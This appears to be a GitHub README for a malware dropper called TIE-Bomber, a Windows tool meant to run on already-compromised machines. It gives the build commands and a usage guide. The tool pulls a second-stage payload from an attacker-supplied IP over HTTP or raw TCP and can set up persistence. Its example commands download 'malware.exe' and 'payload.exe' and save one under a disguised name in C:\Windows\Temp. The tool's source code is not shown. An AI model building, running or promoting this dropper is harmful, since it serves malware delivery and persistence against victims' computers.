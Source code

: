 # TIE-Bomber Dropper 
### (Warning! Blinding GIF)

![img](TIE-Bombers.gif)

## Build
- Install ```mingw-64```
```
sudo apt update && sudo apt install mingw-w64
```
- Compile
```
x86_64-w64-mingw32-gcc -o TIE-Bomber.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lws2_32 -lurlmon -lwininet -lshlwapi TIE-Bomber.c
```
## Usage
> Place the TIE-Bomber.exe to the compromised Windows machine

```
TIE-Bomber.exe -i <IP> -e <EXE> [options]
```

## Required arguments

* `-i <IP>`
  IP address of the server to download the payload from.

* `-e <EXE>`
  Name of the executable to download (e.g., payload.exe).

## Optional arguments

* `-t <TARGET PATH>`
  Full path where the payload should be saved.
  If omitted, name will not be changed.

* `-p <PORT>`
  Port number to connect to (default: 80).

* `-s`
  Use raw TCP sockets instead of HTTP or other protocols.

* `-P`
  Enable persistence only (no download or connect).
  Note: when using `-P`, the `-t` option (target path) is required.

* `-h`
  Print this help message.

## Examples

```
dropper.exe -i 192.168.1.100 -e payload.exe -t C:\Users\Public\drop.exe
dropper.exe -i 10.0.0.2 -e malware.exe -p 9001 -s
dropper.exe -P -t C:\Windows\Temp\update.exe
```

---

# Contributions are highly welcomed!
